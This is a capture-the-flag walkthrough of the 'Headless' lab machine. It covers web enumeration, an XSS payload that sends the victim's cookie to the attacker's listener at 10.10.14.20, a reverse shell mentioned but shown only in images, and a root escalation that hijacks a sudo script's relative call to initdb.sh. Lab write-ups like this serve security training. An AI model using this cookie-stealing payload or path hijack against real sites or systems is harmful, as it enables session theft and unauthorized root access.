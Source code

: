 ```yaml
---
description: Linux | easy | Werkzeug 2.2.2 | xss cookie stealing | syscheck priv esc
---
```


# Headless

ip : 10.129.8.42



## Recon

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
Server: Werkzeug/2.2.2 Python/3.11.2


```

\=> Web server python sur le port 5000

```bash
echo "10.129.8.42 headless.htb" | sudo tee -a /etc/hosts
```



<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Enumeration&#x20;

```bash
gobuster dir -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u  http://headless.htb:5000
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Initial Foothold

Lets try to see if this form is vulnerable to XSS.&#x20;

```
<script>document.location="http://10.10.14.20:8000/plop?z="+document.cookie;</script> 
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

we switch the cookie via cookieEditor on the dashboard page



<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## User Flag

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

time to upload a reverse shell ! lets first url encode our payload

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Then inject it&#x20;

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Root Flag

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

here is syscheck  : &#x20;

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```

we can see that the script call initdb.sh whitout absolute path. lets creat an intdb.sh to gain privilege !&#x20;



<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
